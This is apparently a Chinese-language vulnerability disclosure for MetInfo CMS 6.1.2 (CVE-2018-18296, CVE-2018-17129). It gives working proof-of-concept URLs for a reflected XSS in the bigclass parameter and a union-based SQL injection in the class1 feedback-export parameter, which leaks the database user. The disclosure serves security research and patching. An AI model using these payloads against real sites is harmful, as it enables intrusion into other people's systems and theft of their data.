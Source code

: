 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Metinfo-6.1.2版本存在XSS漏洞&SQL注入漏洞|2018-10-12|踏月留香|[https://www.metinfo.cn/](https://www.metinfo.cn/) | [下载地址](https://www.metinfo.cn/upload/file/MetInfo6.1.2.zip) |6.1.2| [CVE-2018-18296](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18296)/[CVE-2018-17129](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17129)|  

#### 漏洞概述  

> 漏洞存在于MetInfo6.1.2/admin/index.php页面，由于参数bigclass过滤不严，导致XSS漏洞
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e` ，即可执行跨站脚本。  

### POC实现代码如下：  

> XSS漏洞的 exp代码如下：  

``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e
```

> SQL注入漏洞的 exp代码如下：  
> 漏洞存在于MetInfo6.1.2 `/app/system/feedback/admin/feedback_admin.class.php`页面中，由于该页面的class1参数过滤不严，导致存在SQL注入漏洞。
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1//union//select//concat(0x3a,user(),0x3a)//from/**/information_schema.tables&met_fd_export=-1`，访问后网站会导出一个excel表，excel表的名称为数据库用户名。


``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1/**/union/**/select/**/concat(0x3a,user(),0x3a)/**/from/**/information_schema.tables&met_fd_export=-1
```

